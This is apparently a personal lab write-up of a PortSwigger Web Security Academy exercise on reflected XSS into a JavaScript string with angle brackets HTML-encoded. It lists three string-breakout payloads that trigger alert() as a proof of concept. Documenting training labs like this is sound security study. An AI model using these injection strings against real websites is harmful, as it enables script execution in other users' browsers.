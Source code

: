 **Reflected XSS into a JavaScript string with angle brackets HTML encoded**

Look like we are inside a string
Need to break out
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/9159ee50-aa6d-4f2b-810f-4a97c46588c6)



Using 
```
ArbitaryWord';alert();'
``` 
We are able to break out
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/89a08ff2-8775-4464-9c42-cfbe007eb5af)





Another payload
```
viet';alert();let myvar='test
```
We got a POC
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/30fefe4b-5932-4968-8528-0dc79c635c79)



We can also use payload 
```
'-alert(1)-'
```

From <https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded> 






